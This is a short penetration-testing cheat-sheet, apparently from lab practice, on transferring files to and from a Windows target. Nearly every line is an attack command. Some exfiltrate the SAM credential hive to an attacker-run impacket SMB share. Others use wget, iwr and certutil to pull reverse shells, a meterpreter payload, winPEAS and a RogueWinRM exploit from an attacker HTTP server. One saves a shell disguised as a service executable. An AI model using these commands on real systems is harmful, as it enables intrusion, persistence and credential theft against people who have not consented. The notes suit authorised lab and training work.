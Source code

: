 
## copy files from win

[[../08 - SMB/smb - run a server|smb - run a server]]
[[impacket]]

create share for upload to our machine
atk: `sudo impacket-smbserver -smb2support -username THMBackup -password CopyMaster555 myshare ../dirname`

cmd: `copy sam.hive \\10.18.21.236\myshare`

## copy files to win

as above

atk: `python3 -m http.server 8000`

ps: `wget "http://10.18.21.236:8000/shells/revsh-win-x86-service.exe" -O "C:\PROGRA~2\SYSTEM~1\WService.exe"`
ps: `iwr "http://10.18.21.236:8000/enum/winPEASany.exe" -outfile "C:\windows\temp\winpeas.exe"`
ps: `iwr "http://10.18.21.236:8000/shells/revsh-meterpr-444.exe" -outfile "C:\windows\temp\revsh-meterpr-444.exe"`
try skipping outfile

cmd: `certutil -urlcache -split -f "http://10.18.21.236:8000/shells/revsh-win-x86-service.exe" "C:\PROGRA~2\SYSTEM~1\WService.exe"`
cmd: `certutil -urlcache -split -f "http://10.18.21.236:8000/exploits/RogueWinRM.exe" "RogueWinRM.exe"`

cmd: `certutil -urlcache -split -f "http://10.18.21.236:8000/shells/revsh-meterpr-444.exe" "C:\windows\temp\revsh-meterpr-444.exe"`

cmd: `certutil -urlcache -split -f "http://10.18.21.236:8000/shells/revsh-443.exe" "revsh-443.exe"`
cmd: `certutil -urlcache -split -f "http://10.18.21.236:8000/shells/revsh-443.exe" "message.exe"`

cmd: `certutil -urlcache -split -f "http://10.18.21.236:8000/enum/winPEAS.bat" "winpeas.bat"`
